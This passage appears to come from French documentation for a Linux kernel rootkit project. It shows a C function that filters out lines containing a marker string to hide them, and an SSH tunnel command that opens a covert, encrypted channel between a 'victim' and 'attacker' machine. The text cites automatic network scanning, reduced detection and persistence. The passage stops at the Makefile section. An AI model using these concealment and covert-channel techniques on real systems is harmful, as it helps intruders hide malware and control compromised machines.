 ```c
static int verifier_ligne_interdite(const char *contenu_ligne)
{
    int position = 0;
    static const char *texte_a_filtrer[] = {
        "cette ligne est cache",
        NULL
    };
    
    while (texte_a_filtrer[position]) {
        if (strstr(contenu_ligne, texte_a_filtrer[position]))
            return 1;  // Ligne a masquer
        position++;
    }
    return 0;  // Ligne visible
}
```

**Algorithme** : Recherche de sous-chaines avec `strstr` dans les noms et contenus
**Extensibilite** : Tableaux NULL-terminated permettant l'ajout facile de nouveaux patterns
**Performance** : Recherche lineaire optimisee pour un petit nombre de patterns

### Chiffrement des communications

Le rootkit utilise un tunnel SSH pour securiser les communications entre la machine victime et la machine attaquant. Cette approche presente plusieurs avantages :

**Tunnel SSH automatique** : Le script `TUNNELSSH.sh` etablit automatiquement un tunnel SSH chiffre :

```bash
# Creation du tunnel SSH avec forward de port
ssh -f -o ConnectTimeout=3 -o StrictHostKeyChecking=no \
    -N -L "${LOCAL_PORT}:${found_ip}:${REMOTE_PORT}" "${USER_SSH}@${found_ip}"
```

**Avantages du tunnel SSH** :
- **Chiffrement robuste** : Utilise les algorithmes cryptographiques standards de SSH (AES, ChaCha20)
- **Authentification par cles** : Plus securise que l'authentification par mot de passe
- **Transparence applicative** : Le rootkit n'a pas besoin d'implementer le chiffrement
- **Detection reduite** : Le trafic apparait comme du SSH normal

**Configuration automatisee** :
- **Scan reseau** : Detection automatique des machines avec le port 8005 ouvert
- **Etablissement du tunnel** : Connexion SSH automatique sans intervention manuelle
- **Persistance** : Maintien du tunnel en cas de deconnexion

## Compilation et deploiement

### Makefile

Le Makefile gere la compilation du module kernel et les fonctionnalites de dissimulation :
